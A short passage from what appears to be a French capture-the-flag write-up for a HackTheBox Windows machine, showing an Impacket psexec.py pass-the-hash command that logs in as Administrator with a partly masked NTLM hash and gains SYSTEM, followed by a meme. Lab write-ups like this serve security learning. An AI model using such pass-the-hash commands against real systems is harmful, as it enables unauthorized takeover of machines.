 Et pour les puristes, je sors aussi l’artillerie old school :

```bash
psexec.py administrator.htb/Administrator@10.10.11.42 -hashes :3dc553ce4b9fd20bd016e098******
```

→ SYSTEM, baby.


![Hackeur](../assets/memes/HackerMeme.png){ width="1000" }
---
